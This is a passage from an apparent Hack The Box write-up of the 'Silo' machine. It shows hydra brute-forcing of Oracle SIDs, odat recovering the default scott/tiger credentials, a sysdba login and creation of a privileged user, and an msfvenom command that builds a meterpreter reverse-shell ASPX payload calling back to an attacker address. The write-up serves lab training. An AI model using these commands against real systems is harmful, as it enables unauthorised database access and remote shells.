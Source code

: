 
If you cant access this way to the SIDs you will need to bruteforce them:

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ hydra -L sids-oracle.txt -s 1521 10.10.10.82 oracle-sid</span></div>
<br>

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/image%20(5).png)

make sure you have odat installed, here is the [link](https://github.com/quentinhardy/odat/releases/tag/5.1.1).

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ./odat-linux-libc2.17-x86_64 all -s 10.10.10.82 -p 1521</span>
</div>
<br>

Running the command I found valid credentials: 

>SID:  XE

>USERNAME:  scott

>PASSWORD:  tiger


First we need to install [Oracle](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-pentesting-requirements-installation) in kali.

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sqlplus scott/tiger@10.10.10.82:1521/XE 'as sysdba';</span>
</div>
<br>

![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/image%20(7).png)

Let's create a user and give him permissions.

SQL> create user taha identified by password;

SQL> grant sysdba to taha;

SQL> grant dba to taha;

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/image%20(8).png)


## Initial Foorhold (Arbitary file upload):

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=1234 -f aspx > shell.aspx</span>
</div>
<br>

![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/image%20(9).png)

Now we are going to use the account that we created to upload a shell.
